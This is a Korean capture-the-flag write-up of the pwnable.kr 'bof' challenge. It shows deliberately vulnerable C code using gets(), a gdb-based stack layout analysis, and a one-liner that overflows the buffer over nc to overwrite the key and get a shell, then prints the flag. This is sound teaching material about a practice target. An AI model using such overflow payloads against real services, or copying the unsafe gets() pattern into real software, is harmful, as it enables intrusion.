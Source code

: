# Toddler's Bottole - bof  

## 문제 설명  
<img width="449" alt="g" src="https://user-images.githubusercontent.com/46364778/98027442-07158580-1e50-11eb-9668-7288d9870615.PNG">  

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```  


## 문제 풀이  
0. kali 리눅스를 통해 실습을 진행한다.  
> **nc(net cat)**  
> nc는 TCP나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 간단한 유틸리티 프로그램으로 대부분 리눅스에 기본적으로 탑재되어 있다.  
> 일반적으로 UNIX의 cat과 비슷한 사용법을 가지고 있지만 nc는 네트워크에 읽거나 쓰며, 이 명령어를 스크립트와 병용하여 네트워크 디버깅, 테스팅 툴로 사용하며 해킹에도 많이 사용하는 프로그램이다.  

1. 
<img width="179" alt="h" src="https://user-images.githubusercontent.com/46364778/98027748-78553880-1e50-11eb-8290-e99d396712c9.PNG">  

아무거나 입력했는데 이렇게 나옴  

2. 일단 gdb에서 어셈블리를 확인해보자!를하려면 파일이 필요하니 wget 명령으로 받아준다.  
```
wget http://pwnable.kr/bin/bof
```  
하고 gdb 돌리자!  

func() 후에 main이 바로 메모리에 있는 것을 볼 수 있다.  
<img width="313" alt="i" src="https://user-images.githubusercontent.com/46364778/98029210-80ae7300-1e52-11eb-819c-d3d35337e750.PNG">  

3. 이를 토대로 메모리 구조를 대략 파악해보자!  

High
|argv 등|    
|:---:|  
|main ret[4]|  
|main sfp[4]|  
|0xdeadbeef [4인데 16할당]|  
|func ret[4]|  
|func sfp[4]|  
|overflowme[32인데 72할당]|  

Low

4. 정확히 dummy를 파악해보자.  
* ```mov DWORD PTR [ebp-0xc], eax```: func sfp와 overflow 사이에 12bytes dummy가 있을 것이다.
* ```lea eax, [ebp-0x2c]```: gets함수를 호출한 뒤, 그 인자를 가져오는 명령어다. 즉, overflowme를 뜻한다.  
overflowme가 ebp 기준 0x2c == 44bytes 만큼 떨어져 있으므로 12bytes dummy 후에 overflow[32]가 있고 그 후에 28bytes dummy가 있음을 알 수 있다.  
* ```cmp DWORD PTR [ebp+0x8], 0xcafebabe```: 0xcafebabe와 비교하는건 key 인자이다. 즉, key인자가 ebp+8bytes에 있음을 알 수 있다. 즉, func sfp[4] 위에 func ret[4] 그리고 그 위에 바로 0xdeadbeef가 있다는 것이다.  

정리하면,
High
|argv 등|    
|:---:|  
|main ret[4]|  
|main sfp[4]| 
|dummy[12]|  
|0xdeadbeef [4]|  
|func ret[4]|  
|func sfp[4]| 
|dummy[12]|  
|overflowme[32]|  
|dummy[28]|  

Low

+) 그리고 func함수에서 4번의 call 명령(+1은 걍 함수에필로그..?같음)이 보이는데, 차례대로  
printf(), gets(), system(), printf()로 추측이 가능하다.  

5. 여기서 key 값을 0xdeadbeef에서 0xcafebabe로 바꿔주면 된다.  
오버플로우 공격은 overflowme를 입력받는 gets()에서 일어나므로,  

총 52bytes의 padding과 4bytes의 key로 overflow 시키면 된다.  

```
(python -c 'print "\x90"*52+"\xbe\xba\xfe\xca"'; cat) | nc pwnable.kr 9000
```  
> - 실행 파일을 실행하고 입력해줘야하기 때문에 + 쉘이 안꺼지게 세미콜론으로 또 하나의 명령을 준다.  
> - python에 c옵션은 python에서 사용하는 한줄 명령  
> - |: 앞의 출력 결과를 뒤에 실행하는 명령어의 입력으로 보내줌  
> - ()로 묶지 않으면 python 출력 내용에 추가로 데이터를 쓸 수 없다.  

6.  
위 공격코드를 입력하고 나타나는 버퍼에 아무거나 입력해보면,  
```/bin/sh: 1:d: not found``` 뭐 이런 식으로 나온다! 성공했음을 알 수 있음.  

추가로 ```id```를 쳐봐도 uid, gid가 bof로 되어있음을 알 수 있다.  
flag를 얻어내기 위해 ```ls```를 해보자.  
파일 목록 중에 flag라는게 있다. ```cat flag```  

플래그는 ```daddy, I just pwned a buFFer :)```  


